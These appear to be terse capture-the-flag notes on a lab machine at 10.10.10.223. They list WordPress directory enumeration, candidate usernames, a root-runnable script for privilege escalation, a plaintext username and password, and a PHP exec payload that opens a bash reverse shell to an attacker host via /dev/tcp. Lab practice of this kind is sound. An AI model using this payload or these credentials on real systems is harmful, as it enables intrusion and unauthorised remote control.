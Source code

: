 10.10.10.223
----------------------------
directory:
/wordpress
/wordpress/wp-content           (Status: 301) [Size: 327] [--> http://10.10.10.223/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 328] [--> http://10.10.10.223/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 325] [--> http://10.10.10.223/wordpress/wp-admin/]


-------------------------------
Potential username:  protagonist, neil

-----------------------------
RCE payload:
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.71/4444 0>&1'"):
------------------------------------------
can run as root: /usr/local/bin/enableSSH.sh

---------------------
User credentials:

neil: Opera2112
